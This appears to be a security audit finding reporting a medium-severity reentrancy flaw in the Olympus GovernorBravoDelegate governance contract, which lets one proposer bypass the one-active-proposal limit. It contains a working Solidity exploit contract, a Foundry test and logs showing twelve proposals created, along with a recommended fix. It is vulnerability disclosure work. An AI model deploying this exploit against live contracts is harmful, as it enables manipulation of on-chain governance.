 Mysterious Honey Falcon

medium

# Proposer can create high number of proposals through reentrancy

## Summary

The reentrancy through the [`_isHighRiskProposal`](https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L611-L670) function of the GovernorBravoDelegate contract allows the creation of a high number of proposals by the same proposer.

## Vulnerability Detail

The [`propose`](https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L127-L205) function of `GovernorBravoDelegate` contract [ensures that the proposer can create only one proposal](https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L147-L154) that is either pending or active.

```solidity
uint256 latestProposalId = latestProposalIds[msg.sender];
if (latestProposalId != 0) {
    ProposalState proposersLatestProposalState = state(latestProposalId);
    if (proposersLatestProposalState == ProposalState.Active)
         revert GovernorBravo_Proposal_AlreadyActive();
    if (proposersLatestProposalState == ProposalState.Pending)
         revert GovernorBravo_Proposal_AlreadyPending();
}
``` 

Once the proposal is created, the value in the [`latestProposalIds`](https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L190) mapping is updated. The issue is that before this update, the [`_isHighRiskProposal`](https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L169) function is executed, allowing reentrancy through a call to [`configureDependencies`](https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L655-L656) of the provided target address. This can be exploited by an attacker who creates a proposal that reenters the `propose` function before the `latestProposalIds` mapping is updated, thereby creating additional proposals

The following proof of concept demonstrates the creation of 12 proposals by a single proposer:

`ReentrancyExploit` contract:
```solidity
contract ReentrancyExploit {
    using Address for address;

    GovernorBravoDelegator governorBravoDelegator;
    Kernel kernel;
    
    uint256 depth = 0;

    function attack(GovernorBravoDelegator _governorBravoDelegator, Kernel _kernel) external {
        governorBravoDelegator = _governorBravoDelegator;
        kernel = _kernel;
        
        // Proposal 1
        address[] memory targets = new address[](1);
        uint256[] memory values = new uint256[](1);
        string[] memory signatures = new string[](1);
        bytes[] memory calldatas = new bytes[](1);
        string memory description = "Proposal 1";
        
        targets[0] = address(kernel);
        values[0] = 0;
        signatures[0] = "";
        calldatas[0] = abi.encodeWithSelector(
            kernel.executeAction.selector,
            Actions.ActivatePolicy,
            address(this)
        );
    
        bytes memory data = address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature(
                "propose(address[],uint256[],string[],bytes[],string)",
                targets,
                values,
                signatures,
                calldatas,
                description
            )
        );

        uint256 proposalId = abi.decode(data, (uint256));
        console2.log("created proposal", proposalId);
    }

    function configureDependencies() external returns (Keycode[] memory dependencies) {
        console2.log("reentrancy");

        address[] memory targets = new address[](1);
        uint256[] memory values = new uint256[](1);
        string[] memory signatures = new string[](1);
        bytes[] memory calldatas = new bytes[](1);
        string memory description = "Proposal 2";
        
        targets[0] = address(kernel);
        values[0] = 0;
        signatures[0] = "";
        calldatas[0] = "";
        if(depth++ < 10) {
            calldatas[0] = abi.encodeWithSelector(
                kernel.executeAction.selector,
                Actions.ActivatePolicy,
                address(this)
            );
        }

        bytes memory data = address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature(
                "propose(address[],uint256[],string[],bytes[],string)",
                targets,
                values,
                signatures,
                calldatas,
                description
            )
        );
        uint256 proposalId = abi.decode(data, (uint256));
        console2.log("created proposal", proposalId);
    }
}
```

Foundry test case:
```solidity
function testExploit2() public {
    ReentrancyExploit exploit = new ReentrancyExploit();
    
    vm.prank(alice);
    gohm.transfer(address(exploit), 110_000e18);
    gohm.checkpointVotes(address(exploit));

    exploit.attack(governorBravoDelegator, kernel);
}
```

Results:
```shell
[PASS] testExploit2() (gas: 5162466)
Logs:
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  reentrancy
  created proposal 12
  created proposal 11
  created proposal 10
  created proposal 9
  created proposal 8
  created proposal 7
  created proposal 6
  created proposal 5
  created proposal 4
  created proposal 3
  created proposal 2
  created proposal 1

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 18.72ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact

As a proposer, the attacker can bypass the limit of one active/pending proposal and create multiple proposals.

## Code Snippet

- https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L655-L656
- https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L190

## Tool used

Manual Review

## Recommendation

It is recommended to follow the checks-effects-interactions pattern and update the `latestProposalIds` mapping before executing the `_isHighRiskProposal` function.
